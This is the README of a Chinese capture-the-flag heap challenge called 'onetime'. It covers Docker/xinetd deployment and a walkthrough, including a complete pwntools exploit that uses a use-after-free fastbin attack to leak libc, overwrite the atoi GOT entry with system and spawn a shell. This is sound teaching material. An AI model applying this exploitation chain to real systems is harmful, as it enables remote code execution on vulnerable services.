 # pwn2-堆 onetime


## 介绍

本题主要考验同学们对堆相关漏洞之UAF的掌握，具体来说考察fastbin attack和leak libc的技巧，有一定难度，希望同学们能够在提示下完成。


## 部署

使用`xinetd`来部署题目，用于打包docker镜像的文件位于`onetime`目录下：

1. 修改`bin/flag`为你想要的flag值

2. 将编译好的题目二进制文件`onetime`放置于`bin/`目录下

3. 修改`ctf.xinetd`的`server_args`使其执行题目二进制文件；修改`port`为容器内某自定义端口（e.g., 10030）；

4. 修改Dockerfile中的`EXPOSE`端口与上面的`port`一致

5. 构建容器镜像并创建容器：

    ```bash
    docker built -t onetime .
    docker run -itd -p 31053:10030 --name ctfd_onetime onetime
    ```

6. 执行`nc localhost 31053`来验证题目是否部署成功


## 题解

1. 逆向与验证：程序通过atoi函数实现了五个菜单函数（func1~func5），分别是(1) malloc分配0x60字节的空间给全局指针变量p，(2) 向指针p写入0x40字节，(3) 打印指针p的数据，free指针p但未置空（UAF！），(4) malloc分配0x60字节的空间，(5) 分配0x60字节，并写入0x60字节。

2. 攻击思路：在bss段上找到⼀个fake chunk，并且可以控制指针p，使指针p指向got表中atoi位置然后leak libc改写got表atoi为system即可。

3. exploit编写：

```python
#!/usr/bin/env python3
from pwn import *
# context.log_level = "debug" # enable to see debug info

# to test locally, use process("./onetime")
p = remote("server_ip", 31053)
libc = ELF("./onetime.so")  # should be in the same directory

# wrap the interaction with menu
def cmd(c):
    p.recvuntil("your choice >>\n")
    p.sendline(str(c))

# ========================
# Stage 1: exploit fastbin attack to leak the address of atoi
# ========================

# 1. allocate one chunk
cmd(1)

# 2. free the chunk, which will be inserted to fastbin link
cmd(4)

# 3. rewrite the first 8 bytes of the chunk through payload, 
#    which points the fd to a controled address (0x60208d)
cmd(2)
p.recvuntil("fill content:")
# 0x60208d is the address of a valid fake chunk (0x60207d is also ok, then offset_to_chunk should be 0x1b)
payload = p64(0x60208d)
p.sendline(payload)

# 4. allocate one chunk again, where fastbin will return the just freed chunk
#    now, the head of fastbin link has been rewriten with our fake fd (0x60208d)
cmd(1)

# 5. allocate another chunk, we will get the chunk that the fake fd points to
cmd(5)
p.recvuntil("Hero! Leave your name:")
# points p to GOT[atoi]：
#  - fill the first 0xb bytes with 0, to align with the chunk size position and reset has_2 to zero at the same time!
#  - then write p64(0x602058), pointing p to GOT[atoi]
#  - the last two p64(0) is not necessary, they will reset all has_N to zero
offset_to_size = 0xb
p.send(b"\x00" * offset_to_size + p64(0x602058) + p64(0) * 2)

# 6. print p in string format, which is actually printing the real address of atoi through jumping from GOT
cmd(3)
# 0-4 is "data:", we only process the received 5-11 bytes as address of atoi, and completing it with two 0
leak = u64((p.recvuntil("your choice >>\n")[5:11]).ljust(8, b'\x00'))
log.info("Leaked address: " + hex(leak))

# calc libc_base and address of system
libc_base = leak - libc.sym['atoi']
log.info("libc base: " + hex(libc_base))
sys_addr = libc_base + libc.symbols['system']

# ========================
# Stage 2: rewrite GOT, replace atoi with system
# ========================

# use the previously constructed fastbin attack chain, we rewrite the GOT[atoi] with sys_addr
p.send(b"2")
p.recvuntil("fill content:")
# construct payload to rewrite GOT[atoi] to system address
payload = p64(sys_addr)
p.send(payload)

# when calling atoi, it actually calling system, with param 'sh'
cmd('sh')
p.interactive()
```

4. 获取flag：执行`exploit.py`获取到shell之后，通过`cat flag`获取flag。